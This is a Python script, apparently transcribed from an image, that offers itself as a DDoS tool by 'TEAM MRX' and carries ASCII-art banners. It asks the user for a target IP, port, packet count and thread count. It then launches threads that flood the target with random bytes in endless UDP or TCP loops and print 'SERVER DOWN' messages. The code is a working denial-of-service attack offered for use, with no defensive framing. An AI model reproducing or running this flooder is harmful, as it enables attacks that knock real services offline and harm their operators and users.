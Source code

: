 import random
import socket
import threading
import platform

print("DDoS is Running in : "+platform.system())

if platform.system() == 'Windows':

	print("""
 TEAM MRX is Presenting to you :


████████╗███████╗░█████╗░███╗░░░███╗      ███╗░░░███╗    ████████████           ██╗░░██╗
╚══██╔══╝██╔════╝██╔══██╗████╗░████║      ████╗░████║    ████ ░░░          ██              ╚██╗██╔╝
░░░██║░░░█████╗░░███████║██╔████╔██║      ██╔████╔██║    ████                      ██              ░╚███╔╝░
░░░██║░░░██╔══╝░░██╔══██║██║╚██╔╝██║      ██║╚██╔╝██║    ████████████              ░██╔██╗░
░░░██║░░░███████╗██║░░██║██║░╚═╝░██║      ██║░╚═╝░██║    ████        ████                     ██╔╝╚██╗
░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝      ╚═╝░░░░░╚═╝    ████                ████             ╚═╝░░╚═╝

██████╗░██████╗░░█████╗░░██████╗
██╔══██╗██╔══██╗██╔══██╗██╔════╝
██║░░██║██║░░██║██║░░██║╚█████╗░
██║░░██║██║░░██║██║░░██║░╚═══██╗
██████╔╝██████╔╝╚█████╔╝██████╔╝
╚═════╝░╚═════╝░░╚════╝░╚═════╝░

Created by Kill4Life

	""")
else :
	print("""
 TEAM MRX is Presenting to you :


┏━━━━┳━━━┳━━━┳━┓┏━┓  ┳━┓┏━┓     ┃━━┃    \            /     
┃┏┓┏┓┃┏━━┫┏━┓┃┃┗┛┃┃  ┃┃┗┛┃┃     ┃         |       \        /
┗┛┃┃┗┫┗━━┫┃╋┃┃┏┓┏┓┃  ┃┏┓┏┓┃     ┃_____|         \    /
╋╋┃┃╋┃┏━━┫┗━┛┃┃┃┃┃┃  ┃┃┃┃┃┃     ┃         \          \ /
╋╋┃┃╋┃┗━━┫┏━┓┃┃┃┃┃┃  ┃┃┃┃┃┃     ┃           \         / \   
╋╋┗┛╋┗━━━┻┛╋┗┻┛┗┛┗┛  ┻┛┗┛┗┛       ━━━━       /     \
┏━━━┳━━━┓╋╋┏━━━┓
┗┓┏┓┣┓┏┓┃╋╋┃┏━┓┃
╋┃┃┃┃┃┃┃┣━━┫┗━━┓
╋┃┃┃┃┃┃┃┃┏┓┣━━┓┃
┏┛┗┛┣┛┗┛┃┗┛┃┗━┛┃
┗━━━┻━━━┻━━┻━━━┛
┏━━━┓┏┓╋┏┓╋╋╋╋╋╋┏┓
┃┏━┓┣┛┗┳┛┗┓╋╋╋╋╋┃┃
┃┃╋┃┣┓┏┻┓┏╋━━┳━━┫┃┏┓
┃┗━┛┃┃┃╋┃┃┃┏┓┃┏━┫┗┛┛
┃┏━┓┃┃┗┓┃┗┫┏┓┃┗━┫┏┓┓
┗┛╋┗┛┗━┛┗━┻┛┗┻━━┻┛┗┛
		""")


print("DDos")
ip= str(input("                   X Server ip X :"))
port= int(input("                   X port X :"))
choice = str(input("                   X DDoS Attack?? (y/n) X :"))
times= int(input("                   X Paket X :"))
threads= int(input("                   X threads X :"))
def run():
	data = random._urandom(1024)
	i = random.choice(("[-]","[•]","[×]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +"TEAM MRX TA9TA7EM!!!!!!")
		except:
			print("[!] SERVER DOWN!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[-]","[+]","[x]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +"TEAM MRX TA9TA7EM!!!!!!")
		except:
			s.close()
			print("[*] SERVER DOWN")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()

